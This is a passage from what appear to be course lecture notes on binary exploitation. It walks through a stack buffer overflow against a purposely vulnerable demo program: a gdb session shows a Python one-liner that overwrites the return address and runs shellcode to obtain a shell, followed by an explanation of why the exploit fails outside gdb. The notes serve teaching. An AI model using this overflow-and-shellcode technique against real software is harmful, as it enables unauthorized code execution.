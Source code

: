 ``` {.example}
0xbffff5f8: 0x41414141  0xdeadbeef  0x41414141
```

We are looking to jump to the address 0xbffff604.

``` {.example}
(gdb) r 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) c
Continuing.
process 7017 is executing new program: /bin/dash
$ 

```

Boom!

Outside of GDB and NOP sledding
-------------------------------

The last step in this process is to get the exploit to work outside of
gdb. If we just drop our exploit into the command line, it doesn't work:

``` {.example}
user@si485H-base:demo$ ./vulnerable 5 `python -c "sh=open('shell').read(); print 'A'*(0x30)+'\x04\xf6\xff\xbf'+'A'*4+sh+'\x00'"`
Segmentation fault (core dumped)
```

The reason problem is that gdb changes the stack layout, so all the
addresses within gdb are *lower* than they would be outside gdb as they
are more values on the stack. Visually we can see something like this
for how our exploit works:

``` {.example}

    with gdb                 without gdb

  .------------.           .------------.
  |            |           |            |
  | gdb junk   |           :            :  
  |            |            
  :            :           :            :
                           |            |
  :            :           | shell code |
  |            |           | padding    |
  |            |           | ret addr   |--.
  |            |           :            :  |
  | shell code | <-.                     <-'
  | padding    |   |                            
  | ret addr   |---'

```
